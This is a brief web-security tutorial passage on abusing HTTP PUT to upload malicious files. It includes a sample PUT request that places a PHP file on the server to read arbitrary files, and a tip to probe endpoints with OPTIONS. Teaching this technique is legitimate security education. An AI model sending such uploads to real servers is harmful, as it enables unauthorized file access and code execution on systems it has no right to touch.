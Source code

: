 ## Introduction
- It's worth noting that some web servers may be configured to support `PUT` requests.
- If appropriate defenses aren't in place, this can provide an alternative means of uploading malicious files, even when an upload function isn't available via the web interface.
```js
PUT /images/exploit.php HTTP/1.1 
Host: vulnerable-website.com 
Content-Type: application/x-httpd-php 
Content-Length: 49 

<?php echo file_get_contents('/path/to/file'); ?>
```

**Note** - You can try sending `OPTIONS` requests to different endpoints to test for any that advertise support for the `PUT` method.